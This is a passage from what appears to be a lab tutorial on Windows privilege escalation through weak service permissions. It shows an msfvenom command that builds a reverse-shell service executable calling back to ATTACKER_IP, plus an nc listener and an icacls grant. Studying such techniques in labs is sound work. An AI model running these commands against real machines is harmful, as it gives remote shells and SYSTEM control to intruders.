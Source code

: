   



## Insecure Service Permissions

You might still have a slight chance of taking advantage of a service  if the service's executable DACL is well configured, and the service's  binary path is rightly quoted. Should the service DACL (not the  service's executable DACL) allow you to modify the configuration of a  service, you will be able to reconfigure the service. This will allow  you to point to any executable you need and run it with any account you  prefer, including SYSTEM itself.

To check for a service DACL from the command line, you can use [Accesschk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) from the Sysinternals suite. For your convenience, a copy is available at `C:\\tools`. The command to check for the thmservice service DACL is:

Here we can see that the `BUILTIN\\Users` group has the SERVICE_ALL_ACCESS permission, which means any user can reconfigure the service.

Before changing the service, let's build another exe-service reverse  shell and start a listener for it on the attacker's machine:

```
user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4447 -f exe-service -o rev-svc3.exe
```


    user@attackerpc$ nc -lvp 4447

```
C:\> icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F
```

To change the service's associated executable and account, we can use  the following command (mind the spaces after the equal signs when using  sc.exe):

            Command Prompt       



